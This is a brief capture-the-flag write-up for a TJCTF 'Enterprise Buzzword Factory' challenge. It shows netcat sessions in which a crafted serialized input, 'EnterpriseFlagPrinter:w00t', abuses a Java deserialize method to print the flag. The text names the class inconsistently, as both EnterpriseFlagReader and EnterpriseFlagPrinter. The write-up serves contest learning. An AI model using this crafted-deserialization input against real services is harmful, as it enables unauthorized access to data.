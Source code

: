 ### Solved by superkojiman

Connecting to the target presents a menu:

```
koji@pwnbox32:~/Desktop/buzzword$ nc p.tjctf.org 8089
Welcome to the Enterprise Buzzword Factory
Here are your options: 
1. Show all buzzwords
2. Create a buzzword
3. Add a buzzword
```

We can add buzzwords using EnterpriseBuzzword:whatever. However if we look at the provided Java source files, we see that EnterpriseFlagReader has the same deserialize() method that EnterpriseBuzzword has, except that it returns the flag. So instead, we'll use EnterpriseFlagPrinter when adding buzzword:

```
koji@pwnbox32:~/Desktop/buzzword$ nc p.tjctf.org 8089
Welcome to the Enterprise Buzzword Factory
Here are your options: 
1. Show all buzzwords
2. Create a buzzword
3. Add a buzzword
3
Your serialized buzzword: EnterpriseFlagPrinter:w00t
your flag is ayy lmao
```

Flag is: ayy lmao

